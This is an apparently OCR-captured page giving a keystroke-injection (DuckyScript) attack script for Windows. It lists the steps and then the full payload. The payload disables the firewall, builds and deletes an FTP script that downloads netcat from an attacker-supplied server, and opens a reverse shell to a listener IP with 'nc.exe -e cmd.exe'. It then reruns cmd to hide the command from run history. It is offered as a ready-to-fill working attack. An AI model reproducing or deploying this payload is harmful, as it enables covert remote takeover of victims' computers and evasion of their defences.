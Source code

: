 This script will:
* create an FTP script that logs you in to the FTP server and download netcat
* delete the FTP script file
* run netcat in daemon mode
* run cmd.exe one more time to conceal the command we used in the run history.

Fill in the required information where you see the brackets.
```c
DELAY 10000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING cd %USERPROFILE%
ENTER
DELAY 100
STRING netsh firewall set opmode disable
ENTER
DELAY 2000
STRING echo open [IP] [PORT] > ftp.txt
ENTER
DELAY 100
STRING echo [USERNAME]>> ftp.txt
ENTER
DELAY 100
STRING echo [PASSWORD]>> ftp.txt
ENTER
DELAY 100
STRING echo bin >> ftp.txt
ENTER
DELAY 100
STRING echo get nc.exe >> ftp.txt
ENTER
DELAY 100
STRING echo bye >> ftp.txt
ENTER
DELAY 100
STRING ftp -s:ftp.txt
ENTER
STRING del ftp.txt & exit
ENTER
DELAY 2000
GUI r
DELAY 200
STRING nc.exe [LISTENER IP] [LISTENER PORT] -e cmd.exe -d
ENTER
DELAY 2000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 600
STRING exit
ENTER
```